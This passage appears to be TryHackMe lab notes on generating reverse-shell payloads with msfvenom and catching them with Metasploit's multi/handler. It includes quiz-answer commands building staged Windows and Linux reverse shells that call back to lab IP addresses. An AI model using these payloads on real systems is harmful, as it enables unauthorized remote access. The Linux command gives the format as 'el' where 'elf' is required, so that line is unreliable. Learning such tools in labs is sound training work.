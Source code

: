         # Example:
        # linux/x86/shell_reverse_tcp -> This would generate a stageless reverse shell for an x86 Linux target.

        # Windows 32bit: windows/shell_reverse_tcp
        # Windows 64bit: windows/x64/meterpreter/reverse_tcp

        # / -> Staged
        # _ -> Stageless
        ```

- Listing payload:
    ```bash
    $ msfvenom --list payloads
    $ msfvenom --list payloads | grep something
    ```

#### Generate a staged reverse shell for a 64 bit Windows target, in a `.exe` format using your TryHackMe tun0 IP address and a chosen port.
```bash
$ msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=10.11.25.205 LPORT=4444
```

#### Which symbol is used to show that a shell is stageless?
> _ -> Stageless

#### What command would you use to generate a staged meterpreter reverse shell for a 64bit Linux target, assuming your own IP was 10.10.10.5, and you were listening on port 443? The format for the shell is `elf` and the output filename should be `shell`
```bash
$ msfvenom -p linux/x64/meterpreter/reverse_tcp -f el -o shell LHOST=10.10.10.5 LPORT=443
```

## Metasploit multi/handler
Multi/Handler is a superb tool for catching reverse shells. It's essential if you want to use Meterpreter shells, and is the go-to when using staged payloads. How to use:
1. Open Metasploit with `msfconsole`
1. Type `use multi/handler`, and press enter
1. Type `options`, and press enter
1. Set the `PAYLOAD`, `LHOST`, and `LPORT` options.
1. Run the exploit by using `exploit -j`, `-j` will run the exploit as job in the background.
1. Check `sessions` and go to the sessions by `sessions <number>`
